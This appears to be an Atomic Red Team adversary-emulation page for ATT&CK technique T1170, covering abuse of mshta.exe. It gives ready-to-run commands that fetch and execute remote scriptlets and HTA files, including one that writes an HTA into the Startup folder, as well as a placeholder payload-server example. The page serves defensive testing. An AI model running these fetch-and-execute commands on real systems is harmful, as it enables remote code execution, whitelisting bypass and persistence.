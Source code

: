# T1170 - Mshta
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1170)
<blockquote>Mshta.exe is a utility that executes Microsoft HTML Applications (HTA). HTA files have the file extension <code>.hta</code>. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject](#atomic-test-1---mshta-executes-javascript-scheme-fetch-remote-payload-with-getobject)

- [Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe](#atomic-test-2---mshta-calls-a-local-vbscript-file-to-launch-notepadexe)

- [Atomic Test #3 - Mshta executes VBScript to execute malicious command](#atomic-test-3---mshta-executes-vbscript-to-execute-malicious-command)

- [Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)](#atomic-test-4---mshta-executes-remote-html-application-hta)


<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
Test execution of a remote script using mshta.exe

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_url | location of the payload | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/mshta.sct|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```






<br/>
<br/>

## Atomic Test #2 - Mshta calls a local VBScript file to launch notepad.exe
Tests execution of a local program by a VBScript file called by Mshta
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_file_path | Create a local VBScript file | path | C:&#92;Temp&#92;mshta_notepad.vbs|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""#{local_file_path}"")(window.close)")
```






<br/>
<br/>

## Atomic Test #3 - Mshta executes VBScript to execute malicious command
Run a local VB script to run local user enumeration powershell command

This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file $PathToAtomicsFolder\T1170\src\powershell.ps1"":close")
```






<br/>
<br/>

## Atomic Test #4 - Mshta Executes Remote HTML Application (HTA)
Execute an arbitrary remote HTA.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| hta_url | URL to HTA file for execution | string | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/src/T1170.hta|
| temp_file | temp_file location for hta | string | $env:appdata&#92;Microsoft&#92;Windows&#92;Start Menu&#92;Programs&#92;Startup&#92;T1170.hta|


#### Attack Commands: Run with `powershell`! 


```powershell
$var =Invoke-WebRequest "#{hta_url}"
$var.content|out-file "#{temp_file}"
mshta "#{temp_file}"
```

#### Cleanup Commands:
```powershell
remove-item "#{temp_file}" -ErrorAction Ignore
```





<br/>
